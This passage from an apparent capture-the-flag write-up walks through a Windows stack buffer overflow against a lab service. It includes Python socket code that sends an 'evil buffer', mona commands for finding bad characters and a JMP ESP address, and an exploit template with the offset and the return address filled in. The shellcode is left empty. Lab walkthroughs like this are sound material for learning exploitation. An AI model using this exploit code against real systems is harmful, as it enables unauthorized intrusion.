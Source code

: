 ```python
buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("[+] Sending username...")
  s.send(bytes("An00bRektn" + "\r\n", "latin-1"))
  s.recv(1024)
  print("[+] Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  s.recv(1024)
  print("[+] Done!")
except:
  print("[-] Could not connect. Try checking if the program is running?")
```

Sometimes, programs interpret specific characters to serve a specific function, so we cannot use these in our shell code. Before jumping to grabbing the JMP ESP instuction and inserting shellcode, we need to find these bad characters. I'll steal a list of hex characters from [here](https://github.com/cytopia/badchars) and stick it in my code after the `retn` variable.
I'm also going to ask `mona` to do the same using `!mona bytearray -cpb "\x00"`, so I can have `mona` check the bad characters for me. I'll run the exploit again, and check for what bad characters might be using `!mona -f C:\Share\bytearray.bin -a 00DCEEA8`

![jekyll_annoying](https://an00brektn.github.io/img/thm-brainstorm/Pasted image 20210904165201.png)

Here, we see that there are no bad characters, so all we have to do is find the right module and the correct instruction pointer.

### Getting the Rest
I see this module step skipped a lot in other tutorials and writeups because it isn't *that* important, but I still think it's worth the check. If a binary/executable is statically compiled, feel free to skip this. But, since our executable pull from a dll (and other programs could pull from multiple), we might want to double check exactly where in memory we can attack. I can look at the different libraries using `!mona modules`.

![asdf](https://an00brektn.github.io/img/thm-brainstorm/Pasted image 20210904165754.png)

Here, we're looking for a module that has all memory protections set to false, which `essfunc.dll` does. Our next step is to find the JMP ESP pointer that we can use to point back to our shell code, so we can get a shell. We can list instructions that are in `essfunc.dll` using the following command: `!mona find -s "\xff\xe4" -m essfunc.dll` (FF E4 is the JMP ESP instruction in hex).

![asdf](https://an00brektn.github.io/img/thm-brainstorm/Pasted image 20210904170130.png)

If we had bad characters, we'd want to find a pointer that did not contain a bad character. However, since that isn't a problem we can grab the first address `0x625014df`, and put it in our exploit. Since Windows is little endian (which is some CS stuff that's outside of the scope of this writeup), we need to provide this in reverse order. Our exploit should now look like this:

```python
#!/usr/bin/python3
import socket

ip = "10.10.69.5" # Set to remote machine ip
port = 9999

prefix = ""
offset = 2012 # byte offset here
overflow = "A" * offset # Optional, set A to \x90 
retn = "\xdf\x14\x50\x62" # JMP ESP (don't forget to reverse if little endian!)
padding = ""#"\x90" * 16
payload = "" # shell code
postfix = ""
```